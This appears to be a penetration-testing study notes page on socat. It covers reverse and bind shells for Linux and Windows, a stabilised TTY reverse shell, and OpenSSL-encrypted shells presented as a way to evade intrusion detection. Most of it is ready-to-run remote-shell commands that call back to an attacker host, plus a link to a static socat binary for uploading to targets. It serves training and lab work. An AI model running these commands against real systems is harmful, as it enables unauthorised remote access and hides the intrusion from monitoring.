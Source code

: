 ```yaml
---
icon: rectangle-terminal
---
```


# socat

## Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:\


`socat TCP-L:<port> -`\


As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`\


The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.\


This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`\


## Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`\


On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`\


We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.\


Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`\


***

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is _significantly_ more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:\


``socat TCP-L:<port> FILE:`tty`,raw,echo=0``\


Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`\


This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**, creates the process in a new session
* **sane**, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![](https://i.imgur.com/etAuYzz.png)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

***

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

***

## Encypted shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.\


We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`\
\
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.\
We then need to merge the two created files into a single `.pem` file:\
`cat shell.key shell.crt > shell.pem`\
\
Now, when we set up our reverse shell listener, we use:\
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`\
\
This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.\
\
To connect back, we would use:\
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`\
\
The same technique would apply for a bind shell:\
Target:\
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`\
\
Attacker:\
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`\
\
Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.\
The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

<figure><img src="https://i.imgur.com/UbOPN9q.png" alt=""><figcaption></figcaption></figure>

This technique will also work with the special, Linux-only TTY shell covered above: e.g.

`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0`

`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

